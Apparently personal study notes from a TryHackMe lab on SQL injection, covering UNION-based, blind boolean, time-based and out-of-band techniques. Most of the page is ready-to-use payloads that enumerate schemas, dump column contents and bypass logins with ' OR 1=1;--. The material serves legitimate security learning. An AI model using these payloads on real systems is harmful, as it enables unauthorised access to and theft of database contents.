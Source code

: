 # [SQL Injection](https://tryhackme.com/room/sqlinjectionlm)

1. [In-Band SQLi](https://s4yhii.github.io/posts/SQL-Injection/#in-band-classic-sql-injection)

    1.1 [Error-Based SQLi](https://s4yhii.github.io/posts/SQL-Injection/#error-based-sqli)

    1.2 [Union-Based SQLi](https://s4yhii.github.io/posts/SQL-Injection/#union-based-sqli)

    <br>

    - Initial query:

        ```sql
        SELECT * FROM article WHERE id = 1
        ```

    - Establish the number of columns in the table, which we can achieve by using the UNION statement:

        ```sql
        1 UNION SELECT 1, 2, 3
        ```

    - Database name:

        ```sql
        0 UNION SELECT 1, 2, DATABASE()
        ```

    - List of tables:

        ```sql
        0 UNION SELECT 1, 2, GROUP_CONCAT(TABLE_NAME) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = '<database>'
        ```

    - List of columns:

        ```sql
        0 UNION SELECT 1, 2, GROUP_CONCAT(COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = '<table>'
        ```

    - Columns' content:

        ```sql
        0 UNION SELECT 1, 2, GROUP_CONCAT(<column#1>,':',<column#2> SEPARATOR '<br>') FROM <table>
        ```

2. [Blind SQLi](https://s4yhii.github.io/posts/SQL-Injection/#inferential-blind-sql-injection)

    2.1 [Authentication Bypass](https://s4yhii.github.io/posts/SQL-Injection/#inferential-blind-sql-injection)

    - Initial query:

        ```sql
        SELECT * FROM users WHERE username='' AND password='' LIMIT 1;
        ```

    - Adding injection:

        ```sql
        ' OR 1=1;--
        ```

    - Final query:

        ```sql
        SELECT * FROM users WHERE username='' AND password='' OR 1=1;--' LIMIT 1;
        ```

    2.2 [Boolean Based](https://s4yhii.github.io/posts/SQL-Injection/#boolean-based-sqli)

    - Initial query:

        ```sql
        SELECT * FROM users WHERE username='' LIMIT 1;
        ```

    - Establish the number of columns in the users table by using the UNION statement:

        ```sql
        ' UNION SELECT 1, 2, 3;--
        ```

    - Discovering the database name:

        ```sql
        ' UNION SELECT 1, 2, 3 WHERE DATABASE() LIKE '%';--
        ```

    - Discovering the table name:

        ```sql
        ' UNION SELECT 1, 2, 3 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = '<database>' AND TABLE_NAME LIKE '%';--
        ```

    - Discovering the colummn name:

        ```sql
        ' UNION SELECT 1, 2, 3 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = '<database>' AND TABLE_NAME = '<table>' AND COLUMN_NAME LIKE '%';--
        ```

    - Discovering other colummn names:

        ```sql
        ' UNION SELECT 1, 2, 3 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = '<database>' AND TABLE_NAME = '<table>' AND COLUMN_NAME LIKE '%' AND COLUMN_NAME != '<column#1>';--
        ```

    - Discovering the content of column:

        ```sql
        ' UNION SELECT 1, 2, 3 FROM <table> WHERE <column#1> LIKE '%';--
        ```

    - Discovering the content of other columns:

        ```sql
        ' UNION SELECT 1, 2, 3 FROM <table> WHERE <column#1> = '<column#1 content>' AND <column#2> LIKE '%';--
        ```

    2.3 [Time-Based](https://s4yhii.github.io/posts/SQL-Injection/#time-based-blind-sqli)

    - Establish the number of columns in a table:

        ```sql
        ' UNION SELECT SLEEP(5);--
        ```

    - If there was no pause in the response time, we know that the query was unsuccessful, so like on previous tasks, we add another column:

        ```sql
        ' UNION SELECT SLEEP(5), 2;--
        ```

    - And so on...:

        ```sql
        ' UNION SELECT SLEEP(5),2 WHERE DATABASE() LIKE '%';--
        ```

3. [Out-of-Band SQLi](https://s4yhii.github.io/posts/SQL-Injection/#out-of-band-oast-sqli)

    1. An attacker makes a request to a website vulnerable to SQL Injection with an injection payload.

    2. The Website makes an SQL query to the database which also passes the hacker's payload.

    3. The payload contains a request which forces an HTTP request back to the hacker's machine containing data from the database.

        ![Out-of-Band SQLi](https://i.imgur.com/pInX8DT.png)

<br>

[Cheatsheets](https://rouvin.gitbook.io/ibreakstuff/website-security/sql-injection#cheatsheets)

[Automated Tools](https://rouvin.gitbook.io/ibreakstuff/website-security/sql-injection#automated-tools)